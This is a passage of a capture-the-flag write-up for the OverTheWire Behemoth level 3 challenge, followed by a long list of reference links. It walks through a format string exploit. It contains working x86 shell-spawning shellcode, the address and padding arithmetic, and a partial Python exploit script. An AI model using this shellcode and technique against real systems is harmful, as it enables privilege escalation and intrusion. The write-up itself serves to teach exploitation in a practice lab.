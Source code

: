 At this point we can store our [shellcode] in an [environment variable] and find its address. 

I create the [shellcode] with some [Python], so the [hex] values will actually become the [binary data] it needs to be.

```
$ export PWN=`python -c "print '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'"`
$ echo $PWN
j
 X�Rfh-p��Rjhh/bash/bin��RQS��̀
$ ./getenvaddr PWN /behemoth/behemoth3
PWN will be at 0xffffdee6
```

Awesome! Now we've got the memory address we need to jump to: `0xffffdee6`. __Note that this memory address will very likely be different for you; but that is just fine, you will work with it the same way I do.__ With that information, we can figure out the last two 'numbers' we need as ingredients for our exploit.

Now remember, we're doing this in two parts, to get both "halves" of the memory address overwritten. So we'll cut our new memory address into those two parts: `0xdee6` is our "first half" and `0xffff` is our "second half".

To get the 'numbers' for this in order to properly pad our input, we'll have to do some math. I'll write this out in a [Python] interpreter so you can see it all happen:

``` python
>>> 0xdee6 # Let's start with our "first half"...
57062
>>> # Now we have that hex number in decimal, awesome. But we need to subtract
>>> # out the length of things we have already written... just our addresses!
>>> # Since those two addresses add up to 8 bytes, we'll subtract 8.
>>> 57062 - 8
57054
>>> # This is our first number! We'll include this in the exploit script.
>>> # Now let's move on to the next half, our "second half"...
>>> 0xffff
65535
>>> # Again, we have to subtract the length of everything we have already 
>>> # written. Now it is the 57054, and the 8 from the addresses... so it
>>> # is just our original difference, 57062. Subtract those out:
>>> 65535 - 57062
8473
>>> # And we've got our second number! That's all we need!
```

-----

With all that math done, we should have everything to finish our exploit script.

Let's go back to and start to piece together the final payload. I do some weird [Python] stuff just to visualize how they all come together; but it really just creates one long string with all the components put together.


``` python
#!/usr/bin/env python

import struct

memory_location = 0x08049790

# I do this to convert the hex into a string...
address = struct.pack( "<I", memory_location )
address2 = struct.pack( "<I", memory_location + 2 )

offset = 6
offset2 = offset + 1
```

[netcat]: https://en.wikipedia.org/wiki/Netcat
[Wikipedia]: https://www.wikipedia.org/
[Linux]: https://www.linux.com/
[man page]: https://en.wikipedia.org/wiki/Man_page
[PuTTY]: http://www.putty.org/
[ssh]: https://en.wikipedia.org/wiki/Secure_Shell
[Windows]: http://www.microsoft.com/en-us/windows
[virtual machine]: https://en.wikipedia.org/wiki/Virtual_machine
[OS]: https://en.wikipedia.org/wiki/Operating_system
[VMWare]: http://www.vmware.com/
[VirtualBox]: https://www.virtualbox.org/
[hostname]: https://en.wikipedia.org/wiki/Hostname
[port number]: https://en.wikipedia.org/wiki/Port_%28computer_networking%29
[Ubuntu]: http://www.ubuntu.com/
[ISO]: https://en.wikipedia.org/wiki/ISO_image
[standard streams]: https://en.wikipedia.org/wiki/Standard_streams
[standard output]: https://en.wikipedia.org/wiki/Standard_streams
[standard input]: https://en.wikipedia.org/wiki/Standard_streams
[read]: http://ss64.com/bash/read.html
[variable]: https://en.wikipedia.org/wiki/Variable_%28computer_science%29
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[permissions]: https://en.wikipedia.org/wiki/File_system_permissions
[redirection]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[pipe]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[piping]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[tmp]: http://www.tldp.org/LDP/Linux-Filesystem-Hierarchy/html/tmp.html
[curl]: http://curl.haxx.se/
[cl1p.net]: https://cl1p.net/
[request]: http://www.w3.org/Protocols/rfc2616/rfc2616-sec5.html
[POST request]: https://en.wikipedia.org/wiki/POST_%28HTTP%29
[Python]: http://python.org/
[interpreter]: https://en.wikipedia.org/wiki/List_of_command-line_interpreters
[requests]: http://docs.python-requests.org/en/latest/
[urllib]: https://docs.python.org/2/library/urllib.html
[file handling with Python]: https://docs.python.org/2/tutorial/inputoutput.html#reading-and-writing-files
[bash]: https://www.gnu.org/software/bash/
[Assembly]: https://en.wikipedia.org/wiki/Assembly_language
[the stack]:  https://en.wikipedia.org/wiki/Stack_%28abstract_data_type%29
[register]: http://www.tutorialspoint.com/assembly_programming/assembly_registers.htm
[hex]: https://en.wikipedia.org/wiki/Hexadecimal
[hexadecimal]: https://en.wikipedia.org/wiki/Hexadecimal
[archive file]: https://en.wikipedia.org/wiki/Archive_file
[zip file]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[zip files]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[.zip]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[gigabytes]: https://en.wikipedia.org/wiki/Gigabyte
[GB]: https://en.wikipedia.org/wiki/Gigabyte
[GUI]: https://en.wikipedia.org/wiki/Graphical_user_interface
[Wireshark]: https://www.wireshark.org/
[FTP]: https://en.wikipedia.org/wiki/File_Transfer_Protocol
[client and server]: https://simple.wikipedia.org/wiki/Client-server
[RETR]: http://cr.yp.to/ftp/retr.html
[FTP server]: https://help.ubuntu.com/lts/serverguide/ftp-server.html
[SFTP]: https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol
[SSL]: https://en.wikipedia.org/wiki/Transport_Layer_Security
[encryption]: https://en.wikipedia.org/wiki/Encryption
[HTML]: https://en.wikipedia.org/wiki/HTML
[Flask]: http://flask.pocoo.org/
[SQL]: https://en.wikipedia.org/wiki/SQL
[and]: https://en.wikipedia.org/wiki/Logical_conjunction
[Cyberstakes]: https://cyberstakesonline.com/
[cat]: https://en.wikipedia.org/wiki/Cat_%28Unix%29
[symbolic link]: https://en.wikipedia.org/wiki/Symbolic_link
[ln]: https://en.wikipedia.org/wiki/Ln_%28Unix%29
[absolute path]: https://en.wikipedia.org/wiki/Path_%28computing%29
[CTF]: https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security
[Cyberstakes]: https://cyberstakesonline.com/
[OverTheWire]: http://overthewire.org/
[Leviathan]: http://overthewire.org/wargames/leviathan/
[ls]: https://en.wikipedia.org/wiki/Ls
[grep]: https://en.wikipedia.org/wiki/Grep
[strings]: http://linux.die.net/man/1/strings
[ltrace]: http://linux.die.net/man/1/ltrace
[C]: https://en.wikipedia.org/wiki/C_%28programming_language%29
[strcmp]: http://linux.die.net/man/3/strcmp
[access]: http://pubs.opengroup.org/onlinepubs/009695399/functions/access.html
[system]: http://linux.die.net/man/3/system
[real user ID]: https://en.wikipedia.org/wiki/User_identifier
[effective user ID]: https://en.wikipedia.org/wiki/User_identifier
[brute force]: https://en.wikipedia.org/wiki/Brute-force_attack
[for loop]: https://en.wikipedia.org/wiki/For_loop
[bash programming]: http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO.html
[Behemoth]: http://overthewire.org/wargames/behemoth/
[command line]: https://en.wikipedia.org/wiki/Command-line_interface
[command-line]: https://en.wikipedia.org/wiki/Command-line_interface
[cli]: https://en.wikipedia.org/wiki/Command-line_interface
[PHP]: https://php.net/
[URL]: https://en.wikipedia.org/wiki/Uniform_Resource_Locator
[TamperData]: https://addons.mozilla.org/en-US/firefox/addon/tamper-data/
[Firefox]: https://www.mozilla.org/en-US/firefox/new/?product=firefox-3.6.8&os=osx%E2%8C%A9=en-US
[Caesar Cipher]: https://en.wikipedia.org/wiki/Caesar_cipher
[Google Reverse Image Search]: https://www.google.com/imghp
[PicoCTF]: https://picoctf.com/
[PicoCTF 2014]: https://picoctf.com/
[JavaScript]: https://www.javascript.com/
[base64]: https://en.wikipedia.org/wiki/Base64
[client-side]: https://en.wikipedia.org/wiki/Client-side_scripting
[client side]: https://en.wikipedia.org/wiki/Client-side_scripting
[javascript:alert]: http://www.w3schools.com/js/js_popup.asp
[Java]: https://www.java.com/en/
[2147483647]: https://en.wikipedia.org/wiki/2147483647_%28number%29
[XOR]: https://en.wikipedia.org/wiki/Exclusive_or
[XOR cipher]: https://en.wikipedia.org/wiki/XOR_cipher
[quipqiup.com]: http://www.quipqiup.com/
[PDF]: https://en.wikipedia.org/wiki/Portable_Document_Format
[pdfimages]: http://linux.die.net/man/1/pdfimages
[ampersand]: https://en.wikipedia.org/wiki/Ampersand
[URL encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[Percent encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[URL-encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[Percent-encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[endianness]: https://en.wikipedia.org/wiki/Endianness
[ASCII]: https://en.wikipedia.org/wiki/ASCII
[struct]: https://docs.python.org/2/library/struct.html
[pcap]: https://en.wikipedia.org/wiki/Pcap
[packet capture]: https://en.wikipedia.org/wiki/Packet_analyzer
[HTTP]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol
[Wireshark filters]: https://wiki.wireshark.org/DisplayFilters
[SSL]: https://en.wikipedia.org/wiki/Transport_Layer_Security
[Assembly]: https://en.wikipedia.org/wiki/Assembly_language
[Assembly Syntax]: https://en.wikipedia.org/wiki/X86_assembly_language#Syntax
[Intel Syntax]: https://en.wikipedia.org/wiki/X86_assembly_language
[Intel or AT&T]: http://www.imada.sdu.dk/Courses/DM18/Litteratur/IntelnATT.htm
[AT&T syntax]: https://en.wikibooks.org/wiki/X86_Assembly/GAS_Syntax
[GET request]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[GET requests]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[IP Address]: https://en.wikipedia.org/wiki/IP_address
[IP Addresses]: https://en.wikipedia.org/wiki/IP_address
[MAC Address]: https://en.wikipedia.org/wiki/MAC_address
[session]: https://en.wikipedia.org/wiki/Session_%28computer_science%29
[Cookie Manager+]: https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/
[hexedit]: http://linux.die.net/man/1/hexedit
[Google]: http://google.com/
[Scapy]: http://www.secdev.org/projects/scapy/
[ARP]: https://en.wikipedia.org/wiki/Address_Resolution_Protocol
[UDP]: https://en.wikipedia.org/wiki/User_Datagram_Protocol
[SQL injection]: https://en.wikipedia.org/wiki/SQL_injection
[sqlmap]: http://sqlmap.org/
[sqlite]: https://www.sqlite.org/
[MD5]: https://en.wikipedia.org/wiki/MD5
[OpenSSL]: https://www.openssl.org/
[NULL character]: https://en.wikipedia.org/wiki/Null_character
[Format String Vulnerability]: http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf
[printf]: http://pubs.opengroup.org/onlinepubs/009695399/functions/fprintf.html
[argument]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[arguments]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[parameter]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[parameters]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[Vortex]: http://overthewire.org/wargames/vortex/
[socket]: https://docs.python.org/2/library/socket.html
[file descriptor]: https://en.wikipedia.org/wiki/File_descriptor
[file descriptors]: https://en.wikipedia.org/wiki/File_descriptor
[Forth]: https://en.wikipedia.org/wiki/Forth_%28programming_language%29
[github]: https://github.com/
[buffer overflow]: https://en.wikipedia.org/wiki/Buffer_overflow
[try harder]: https://www.offensive-security.com/when-things-get-tough/
[segmentation fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[seg fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[segfault]: https://en.wikipedia.org/wiki/Segmentation_fault
[shellcode]: https://en.wikipedia.org/wiki/Shellcode
[sploit-tools]: https://github.com/SaltwaterC/sploit-tools
[Kali]: https://www.kali.org/
[Kali Linux]: https://www.kali.org/
[gdb]: https://www.gnu.org/software/gdb/
[gdb tutorial]: http://www.unknownroad.com/rtfm/gdbtut/gdbtoc.html
[payload]: https://en.wikipedia.org/wiki/Payload_%28computing%29
[peda]: https://github.com/longld/peda
[git]: https://git-scm.com/
[home directory]: https://en.wikipedia.org/wiki/Home_directory
[NOP]: https://en.wikipedia.org/wiki/NOP
[examine]: https://sourceware.org/gdb/onlinedocs/gdb/Memory.html
[stack pointer]: http://stackoverflow.com/questions/1395591/what-is-exactly-the-base-pointer-and-stack-pointer-to-what-do-they-point
[little endian]: https://en.wikipedia.org/wiki/Endianness
[big endian]: https://en.wikipedia.org/wiki/Endianness
[endianness]: https://en.wikipedia.org/wiki/Endianness
[pack]: https://docs.python.org/2/library/struct.html#struct.pack
[dash]: https://en.wikipedia.org/wiki/Almquist_shell
[shell]: https://en.wikipedia.org/wiki/Shell_%28computing%29
[pwntools]: https://github.com/Gallopsled/pwntools
[colorama]: https://pypi.python.org/pypi/colorama
[objdump]: https://en.wikipedia.org/wiki/Objdump
[UPX]: http://upx.sourceforge.net/
[64-bit]: https://en.wikipedia.org/wiki/64-bit_computing
[breakpoint]: https://en.wikipedia.org/wiki/Breakpoint
[stack frame]: http://www.cs.umd.edu/class/sum2003/cmsc311/Notes/Mips/stack.html
[format string]: http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html
[format specifiers]: http://web.eecs.umich.edu/~bartlett/printf.html
[format specifier]: http://web.eecs.umich.edu/~bartlett/printf.html
[variable expansion]: https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html
[base pointer]: http://stackoverflow.com/questions/1395591/what-is-exactly-the-base-pointer-and-stack-pointer-to-what-do-they-point
[dmesg]: https://en.wikipedia.org/wiki/Dmesg
[Android]: https://www.android.com/
[decompiler]: https://en.wikipedia.org/wiki/Decompiler
[decompile Java code]: http://www.javadecompilers.com/
[jadx]: https://github.com/skylot/jadx
[.img]: https://en.wikipedia.org/wiki/IMG_%28file_format%29
[binwalk]: http://binwalk.org/
[JPEG]: https://en.wikipedia.org/wiki/JPEG
[JPG]: https://en.wikipedia.org/wiki/JPEG
[disk image]: https://en.wikipedia.org/wiki/Disk_image
[foremost]: http://foremost.sourceforge.net/
[eog]: https://wiki.gnome.org/Apps/EyeOfGnome
[function pointer]: https://en.wikipedia.org/wiki/Function_pointer
[machine code]: https://en.wikipedia.org/wiki/Machine_code
[compiled language]: https://en.wikipedia.org/wiki/Compiled_language
[compiler]: https://en.wikipedia.org/wiki/Compiler
[compile]: https://en.wikipedia.org/wiki/Compiler
[scripting language]: https://en.wikipedia.org/wiki/Scripting_language
[shell-storm.org]: http://shell-storm.org/
[shellcode database]: http://shell-storm.org/shellcode/
[gdb-peda]: https://github.com/longld/peda
[x86]: https://en.wikipedia.org/wiki/X86
[Intel x86]: https://en.wikipedia.org/wiki/X86
[sh]: https://en.wikipedia.org/wiki/Bourne_shell
[/bin/sh]: https://en.wikipedia.org/wiki/Bourne_shell
[SANS]: https://www.sans.org/
[Holiday Hack Challenge]: https://holidayhackchallenge.com/
[USCGA]: http://uscga.edu/
[United States Coast Guard Academy]: http://uscga.edu/
[US Coast Guard Academy]: http://uscga.edu/
[Academy]: http://uscga.edu/
[Coast Guard Academy]: http://uscga.edu/
[Hackfest]: https://www.sans.org/event/pen-test-hackfest-2015
[SSID]: https://en.wikipedia.org/wiki/Service_set_%28802.11_network%29
[DNS]: https://en.wikipedia.org/wiki/Domain_Name_System
[Python:base64]: https://docs.python.org/2/library/base64.html
[OpenWRT]: https://openwrt.org/
[node.js]: https://nodejs.org/en/
[MongoDB]: https://www.mongodb.org/
[Mongo]: https://www.mongodb.org/
[SuperGnome 01]: http://52.2.229.189/
[Shodan]: https://www.shodan.io/
[SuperGnome 02]: http://52.34.3.80/
[SuperGnome 03]: http://52.64.191.71/
[SuperGnome 04]: http://52.192.152.132/
[SuperGnome 05]: http://54.233.105.81/
[Local file inclusion]: http://hakipedia.com/index.php/Local_File_Inclusion
[LFI]: http://hakipedia.com/index.php/Local_File_Inclusion
[PNG]: http://www.libpng.org/pub/png/
[.png]: http://www.libpng.org/pub/png/
[Remote Code Execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[RCE]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[GNU]: https://www.gnu.org/
[regular expression]: https://en.wikipedia.org/wiki/Regular_expression
[regular expressions]: https://en.wikipedia.org/wiki/Regular_expression
[uniq]: https://en.wikipedia.org/wiki/Uniq
[sort]: https://en.wikipedia.org/wiki/Sort_%28Unix%29
[binary data]: https://en.wikipedia.org/wiki/Binary_data
[binary]: https://en.wikipedia.org/wiki/Binary
[Firebug]: http://getfirebug.com/
[SHA1]: https://en.wikipedia.org/wiki/SHA-1
[SHA-1]: https://en.wikipedia.org/wiki/SHA-1
[Linux]: https://www.linux.com/
[Ubuntu]: http://www.ubuntu.com/
[Kali Linux]: https://www.kali.org/
[Over The Wire]: http://overthewire.org/wargames/
[OverTheWire]: http://overthewire.org/wargames/
[Micro Corruption]: https://microcorruption.com/
[Smash The Stack]: http://smashthestack.org/
[CTFTime]: https://ctftime.org/
[Writeups]: https://ctftime.org/writeups
[Competitions]: https://ctftime.org/event/list/upcoming
[Skull Security]: https://wiki.skullsecurity.org/index.php?title=Main_Page
[MITRE]: http://mitrecyberacademy.org/
[Trail of Bits]: https://trailofbits.github.io/ctf/
[Stegsolve]: http://www.caesum.com/handbook/Stegsolve.jar
[Steghide]: http://steghide.sourceforge.net/
[IDA Pro]: https://www.hex-rays.com/products/ida/
[Wireshark]: https://www.wireshark.org/
[Bro]: https://www.bro.org/
[Meterpreter]: https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/
[Metasploit]: http://www.metasploit.com/
[Burpsuite]: https://portswigger.net/burp/
[xortool]: https://github.com/hellman/xortool
[sqlmap]: http://sqlmap.org/
[VMWare]: http://www.vmware.com/
[VirtualBox]: https://www.virtualbox.org/wiki/Downloads
[VBScript Decoder]: https://gist.github.com/bcse/1834878
[quipqiup.com]: http://quipqiup.com/
[EXIFTool]: http://www.sno.phy.queensu.ca/~phil/exiftool/
[Scalpel]: https://github.com/sleuthkit/scalpel
[Ryan's Tutorials]: http://ryanstutorials.net
[Linux Fundamentals]: http://linux-training.be/linuxfun.pdf
[USCGA]: http://uscga.edu
[Cyberstakes]: https://cyberstakesonline.com/
[Crackmes.de]: http://crackmes.de/
[Nuit Du Hack]: http://wargame.nuitduhack.com/
[Hacking-Lab]: https://www.hacking-lab.com/index.html
[FlareOn]: http://www.flare-on.com/
[The Second Extended Filesystem]: http://www.nongnu.org/ext2-doc/ext2.html
[GIF]: https://en.wikipedia.org/wiki/GIF
[PDFCrack]: http://pdfcrack.sourceforge.net/index.html
[Hexcellents CTF Knowledge Base]: http://security.cs.pub.ro/hexcellents/wiki/home
[GDB]: https://www.gnu.org/software/gdb/
[The Linux System Administrator's Guide]: http://www.tldp.org/LDP/sag/html/index.html
[aeskeyfind]: https://citp.princeton.edu/research/memory/code/
[rsakeyfind]: https://citp.princeton.edu/research/memory/code/
[Easy Python Decompiler]: http://sourceforge.net/projects/easypythondecompiler/
[factordb.com]: http://factordb.com/
[Volatility]: https://github.com/volatilityfoundation/volatility
[Autopsy]: http://www.sleuthkit.org/autopsy/
[ShowMyCode]: http://www.showmycode.com/
[HTTrack]: https://www.httrack.com/
[theHarvester]: https://github.com/laramies/theHarvester
[Netcraft]: http://toolbar.netcraft.com/site_report/
[Nikto]: https://cirt.net/Nikto2
[PIVOT Project]: http://pivotproject.org/
[InsomniHack PDF]: http://insomnihack.ch/wp-content/uploads/2016/01/Hacking_like_in_the_movies.pdf
[radare]: http://www.radare.org/r/
[radare2]: http://www.radare.org/r/
[foremost]: https://en.wikipedia.org/wiki/Foremost_%28software%29
[ZAP]: https://github.com/zaproxy/zaproxy
[Computer Security Student]: https://www.computersecuritystudent.com/HOME/index.html
[Vulnerable Web Page]: http://testphp.vulnweb.com/
[Hipshot]: https://bitbucket.org/eliteraspberries/hipshot
[John the Ripper]: https://en.wikipedia.org/wiki/John_the_Ripper
[hashcat]: http://hashcat.net/oclhashcat/
[fcrackzip]: http://manpages.ubuntu.com/manpages/hardy/man1/fcrackzip.1.html
[Whitehatters Academy]: https://www.whitehatters.academy/
[gn00bz]: http://gnoobz.com/
[Cybrary]: https://www.cybrary.it/
[Obum Chidi]: https://obumchidi.wordpress.com/
[ksnctf]: http://ksnctf.sweetduet.info/
[ToolsWatch]: http://www.toolswatch.org/category/tools/
[Nandy Narwhals]: http://nandynarwhals.org/
[CTFHacker]: http://ctfhacker.com/
[Tasteless]: http://tasteless.eu/
[Dragon Sector]: http://blog.dragonsector.pl/
[pwnable.kr]: http://pwnable.kr/
[reversing.kr]: http://reversing.kr/
[DVWA]: http://www.dvwa.co.uk/
[Damn Vulnerable Web App]: http://www.dvwa.co.uk/
[b01lers]: https://b01lers.net/
[Capture the Swag]: https://ctf.rip/
[pointer]: https://en.wikipedia.org/wiki/Pointer_%28computer_programming%29
[call stack]: https://en.wikipedia.org/wiki/Call_stack
[return statement]: https://en.wikipedia.org/wiki/Return_statement
[return address]: https://en.wikipedia.org/wiki/Return_statement
[disassemble]: https://en.wikipedia.org/wiki/Disassembler
[less]: https://en.wikipedia.org/wiki/Less_%28Unix%29
[puts]: http://pubs.opengroup.org/onlinepubs/009695399/functions/puts.html
[disassembly]: https://en.wikibooks.org/wiki/X86_Disassembly
[PLT]: https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html
[Procedure Lookup Table]: http://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got
[environment variable]: https://en.wikipedia.org/wiki/Environment_variable
[getenvaddr]: https://code.google.com/p/protostar-solutions/source/browse/Stack+6/getenvaddr.c?r=3d0a6873d44901d63caf9ad3764cfb9ab47f3332
[getenvaddr.c]: https://code.google.com/p/protostar-solutions/source/browse/Stack+6/getenvaddr.c?r=3d0a6873d44901d63caf9ad3764cfb9ab47f3332
